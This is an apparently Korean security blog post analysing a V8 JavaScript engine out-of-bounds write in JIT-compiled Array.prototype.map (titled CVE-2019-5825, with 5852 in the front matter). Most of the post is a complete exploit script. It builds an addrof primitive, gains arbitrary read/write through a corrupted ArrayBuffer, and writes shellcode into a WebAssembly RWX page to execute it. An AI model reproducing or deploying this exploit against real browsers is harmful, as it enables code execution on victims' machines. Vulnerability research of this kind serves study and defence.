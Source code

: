 ```yaml
---
layout:     post
title:      "CVE-2019-5852 v8 exploit"
subtitle:   "v8 vulnerability analysis"
date:       2019-08-08
author:     "NextLine"
header-img: "img/post-bg-2.png"
tags:
    - CVE
---
```


# CVE-2019-5825 v8 exploit

### 1. Intro

regress 파일만 보고 exploit 했는데 분석하기 어렵지 않았다. 다만 디버그 모드에서 큰 사이즈의 smi array를 만드는데 시간이 오래걸려서 인내심이 필요했다.

### 2. Vulnerability

```diff
// Copyright 2019 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.
// Flags: --allow-natives-syntax --noenable-slow-asserts
// This call ensures that TurboFan won't inline array constructors.
Array(2**30);
// Set up a fast holey smi array, and generate optimized code.
let a = [1, 2, ,,, 3];
function mapping(a) {
  return a.map(v => v);
}
mapping(a);
mapping(a);
%OptimizeFunctionOnNextCall(mapping);
mapping(a);
// Now lengthen the array, but ensure that it points to a non-dictionary
// backing store.
a.length = (32 * 1024 * 1024)-1;
a.fill(1,0);
a.push(2);
a.length += 500;
// Now, the non-inlined array constructor should produce an array with
// dictionary elements: causing a crash.
mapping(a);
```
v8에서 길이가 0x2000000 보다 큰 array를 할당하면 dictionary array가 생성된다. 즉 길이가 0x2000000 보다 큰 array의 경우 일반적으로 dictionary array일 가능성이 높다.<br>
Array.prototype.map이 JIT에 의해 컴파일되면 인자로 받은 길이만큼 Array를 생성하고 내용을 복사하는데, 길이가 0x2000000 보다 큰 array를 dictionary array로 가정하고 따로 확인하는 부분이 존재하지 않는다.<br>
하지만 길이가 0x2000000 보다 큰 smi array를 생성할 수 있고 그 array가 인자로 전달되면 반환되는 array는 dictionary array로 생성되기 때문에 smi array의 내용을 복사하는 과정에서 out-of-bounds write 취약점이 발생한다.

### 3. Exploit

exploit에서 까다로운 점은 oob write를 할 때 매우 큰 메모리를 복사하기 때문에 메모리 범위를 벗어나 크래시가 발생한다는 점이다. 그래서 try/catch를 이용해 oob 범위를 잘 조정해야한다. oob write를 이용해 unboxed double array의 길이를 덮고 addrof 함수를 만든 이후에 ArrayBuffer의 backing store를 덮어 arbitrary read/write를 얻었다.

```
function gc() { for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x1000000); }};
let f64 = new Float64Array(1);
let u32 = new Uint32Array(f64.buffer);
function d2u(v) {
  f64[0] = v;
  return u32;
}
function u2d(lo, hi) {
  u32[0] = lo;
  u32[1] = hi;
  return f64[0];
}
function hex(lo, hi) {
  if( lo == 0 ) {
    return ("0x" + hi.toString(16) + "00000000");
  }
  if( hi == 0 ) {
    return ("0x" + lo.toString(16));
  }
  return ("0x" + ('00000000'+hi.toString(16)).substr(8) +('00000000'+lo.toString(16)).substr(8));
}
const SIZE = 32 * 1024 * 1024;
// This call ensures that TurboFan won't inline array constructors.
Array(2**30);
// Set up a fast holey smi array, and generate optimized code.
let arr = [1, 2, ,,, 3];
// for rwx
let wasm_code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 7, 1, 96, 2, 127, 127, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 21, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 8, 95, 90, 51, 97, 100, 100, 105, 105, 0, 0, 10, 9, 1, 7, 0, 32, 1, 32, 0, 106, 11]);
let wasm_mod = new WebAssembly.Instance(new WebAssembly.Module(wasm_code), {});
let f = wasm_mod.exports._Z3addii;
// global
let targetArray = null; 
let targetBuffer = null;
let bufferidx = null;
let leakarray = null;
let leakidx = null;
function func(v,idx) {
  if (idx > 0x1a){
    throw "err";
  }else if (idx == 0x1a) {
    targetArray = [1.1, 2.2, 3.3, 4.4, 5.5];
  }
  return v;
}
function mapping(a) {
  return a.map(func);
}
for(let i = 0; i < 100000; i++){
  mapping(arr);
}
// Now lengthen the array, but ensure that it points to a non-dictionary
// backing store.
arr.length = SIZE-1;
arr.fill(1,0);
arr.push(2);
arr.length += 500;
// Now, the non-inlined array constructor should produce an array with
// dictionary elements: causing a crash.
// readline();
try{
  gc();
  mapping(arr);
} catch {};
if (targetArray.length == 1072693248) {
  print("success");
}
// make addrof
leakarray = [0x4141,0x4242,{}];
for (let i = 0; i < 0x10000; i++) {
  if(targetArray[i] == u2d(0,0x4141)){
    if(targetArray[i+1] == u2d(0,0x4242)){
      leakidx = i; 
      break;
    }
  }
}
let addrof = function(obj){
  leakarray[0] = obj;
  return d2u(targetArray[leakidx]);
};
// make r/w
targetBuffer = new ArrayBuffer(0x1230);
for (let i = 0; i < 0x10000; i++) {
    if(targetArray[i] == u2d(0x1230,0)){
    bufferidx = i + 1;
    bufferbackup = targetArray[bufferidx];
    break;
    }
}
let read8 = function(address) {
  targetArray[bufferidx] = address;
  var tmp = new Uint32Array(targetBuffer);
  var re = [tmp[0], tmp[1]];
  return re; 
}
var wasm = addrof(wasm_mod);
var rwx = read8(u2d(wasm[0]+0xff,wasm[1]));
targetArray[bufferidx] = u2d(rwx[0],rwx[1]);
var dataview = new DataView(targetBuffer);
var shellcode = [ 0xb848686a, 0x6e69622f, 0x732f2f2f, 0xe7894850, 0x1697268, 0x24348101, 0x1010101, 0x6a56f631, 0x1485e08, 0x894856e6, 0x6ad231e6, 0x50f583b];
for(let i = 0; i < shellcode.length; i++) {
  dataview.setUint32(i * 4, shellcode[i], true);
}
f();
```
